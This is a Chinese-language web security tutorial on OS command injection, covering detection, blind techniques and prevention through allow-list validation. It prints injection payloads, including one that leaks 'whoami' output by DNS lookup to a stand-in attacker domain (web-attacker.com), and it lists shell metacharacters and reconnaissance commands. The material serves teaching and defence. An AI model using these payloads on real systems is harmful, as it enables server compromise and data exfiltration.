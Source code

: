 +++
draft = false
date = 2021-03-03T00:00:00+08:00
title = "web 安全之 OS command injection"
description = "web 安全之 OS command injection"
slug = ""
authors = []
tags = []
categories = ["web security"]
externalLink = ""
series = []
disableComments = true
+++

# OS command injection

在本节中，我们将解释什么是操作系统命令注入，描述如何检测和利用此漏洞，为不同的操作系统阐明一些有用的命令和技术，并总结如何防止操作系统命令注入。

![os command injection](https://raw.githubusercontent.com/RifeWang/images/master/web-security/os-command-injection.png)


## 什么是操作系统命令注入

OS 命令注入（也称为 shell 注入）是一个 web 安全漏洞，它允许攻击者在运行应用程序的服务器上执行任意的操作系统命令，这通常会对应用程序及其所有数据造成严重危害。并且，攻击者也常常利用此漏洞危害基础设施中的其他部分，利用信任关系攻击组织内的其他系统。


## 执行任意命令

假设某个购物应用程序允许用户查看某个商品在特定商店中是否有库存，此信息可以通过以下 URL 获取：
```
https://insecure-website.com/stockStatus?productID=381&storeID=29
```

为了提供返回信息，应用程序必须查询各种遗留系统。由于历史原因，此功能通过调用 shell 命令并传递参数来实现如下：
```
stockreport.pl 381 29
```

此命令输出特定商店中某个商品的库存信息，并将其返回给用户。

由于应用程序没有对 OS 命令注入进行防御，那么攻击者可以提交类似以下输入来执行任意命令：
```
& echo aiwefwlguh &
```

如果这个输入被当作 productID 参数，那么应用程序执行的命令就是：
```
stockreport.pl & echo aiwefwlguh & 29
```

`echo` 命令就是让提供的字符串在输出中显示的作用，其是测试某些 OS 命令注入的有效方法。`&` 符号就是一个 shell 命令分隔符，因此上例实际执行的是一个接一个的三个单独的命令。因此，返回给用户的输出为：
```
Error - productID was not provided
aiwefwlguh
29: command not found
```

这三行输出表明：
- 原来的 `stockreport.pl` 命令由于没有收到预期的参数，因此返回错误信息。
- 注入的 `echo` 命令执行成功。
- 原始的参数 29 被当成了命令执行，也导致了异常。

将命令分隔符 `&` 放在注入命令之后通常是有用的，因为它会将注入的命令与注入点后面的命令分开，这减少了随后发生的事情将阻止注入命令执行的可能性。


## 常用的命令

当你识别 OS 命令注入漏洞时，执行一些初始命令以获取有关系统信息通常很有用。下面是一些在 Linux 和 Windows 平台上常用命令的摘要：

|  命令含义   |  Linux  |   Windows  |
| :-- | :-- | :-- |
|  显示当前用户名   |   whoami   |  whoami   |
|  显示操作系统信息   |   uname -a   |  ver   |
|  显示网络配置   |   ifconfig   |  ipconfig /all   |
|  显示网络连接   |   netstat -an  |  netstat -an   |
|  显示正在运行的进程   |   ps -ef   |  tasklist   |



## 不可见 OS 命令注入漏洞

许多 OS 命令注入漏洞都是不可见的，这意味着应用程序不会在其 HTTP 响应中返回命令的输出。 不可见 OS 命令注入漏洞仍然可以被利用，但需要不同的技术。

假设某个 web 站点允许用户提交反馈信息，用户输入他们的电子邮件地址和反馈信息，然后服务端生成一封包含反馈信息的电子邮件投递给网站管理员。为此，服务端需要调用 mail 程序，如下：
```
mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com
```

mail 命令的输出并没有作为应用程序的响应返回，因此使用 echo 负载不会有效。这种情况，你可以使用一些其他的技术来检测漏洞。


### 基于延时检测

你可以使用能触发延时的注入命令，然后根据应用程序的响应时长来判断注入的命令是否被执行。使用 `ping` 命令是一种有效的方式，因为此命令允许你指定要发送的 ICMP 包的数量以及命令运行的时间：
```
& ping -c 10 127.0.0.1 &
```

这个命令将会 ping 10 秒钟。


### 重定向输出

你可以将注入命令的输出重定向到能够使用浏览器访问到的 web 目录。例如，应用程序使用 /var/www/static 路径作为静态资源目录，那么你可以提交以下输入：
```
& whoami > /var/www/static/whoami.txt &
```

`>` 符号就是输出重定向的意思，上面这个命令就是把 whoami 的执行结果输出到 /var/www/static/whoami.txt 文件中，然后你就可以通过浏览器访问 `https://vulnerable-website.com/whoami.txt` 查看命令的输出结果。


### 使用 OAST 技术

使用 OAST 带外技术就是你要有一个自己控制的外部系统，然后注入命令执行，触发与你控制的系统的交互。例如：
```
& nslookup kgji2ohoyw.web-attacker.com &
```

这个负载使用 `nslookup` 命令对指定域名进行 DNS 查找，攻击者可以监视是否发生了指定的查找，从而检测命令是否成功注入执行。

带外通道还提供了一种简单的方式将注入命令的输出传递出来，例如：
```
& nslookup `whoami`.kgji2ohoyw.web-attacker.com &
```

这将导致对攻击者控制的域名的 DNS 查找，如：
```
wwwuser.kgji2ohoyw.web-attacker.com
```


## 注入 OS 命令的方法

各种 shell 元字符都可以用于执行 OS 命令注入攻击。

许多字符用作命令分隔符，从而将多个命令连接在一起。以下分隔符在 Windows 和 Unix 类系统上均可使用：
- `&`
- `&&`
- `|`
- `||`

以下命令分隔符仅适用于 Unix 类系统：
- `;`
- 换行符（`0x0a` 或 `\n`）

在 Unix 类系统上，还可以使用 <code>`</code> 反引号和 <code>$</code> 符号在原始命令内注入命令内联执行：
- <code>`</code>
- `$`


需要注意的是，不同的 shell 元字符具有细微不同的行为，这些行为可能会影响它们在某些情况下是否工作，以及它们是否允许在带内检索命令输出，或者只对不可见 OS 利用有效。

有时，你控制的输入会出现在原始命令中的引号内。在这种情况下，您需要在使用合适的 shell 元字符注入新命令之前终止引用的上下文（使用 `"` 或 <code>'</code>）。


## 如何防御 OS 命令注入攻击

防止 OS 命令注入攻击最有效的方法就是永远不要从应用层代码中调用 OS 命令。几乎在对于所有情况下，都有使用更安全的平台 API 来实现所需功能的替代方法。

如果认为使用用户提供的输入调用 OS 命令是不可避免的，那么必须执行严格的输入验证。有效验证的一些例子包括：
- 根据允许值的白名单校验。
- 验证输入是否为数字。
- 验证输入是否只包含字母数字字符，不包含其它语法或空格。

不要试图通过转义 shell 元字符来清理输入。实际上，这太容易出错，且很容易被熟练的攻击者绕过。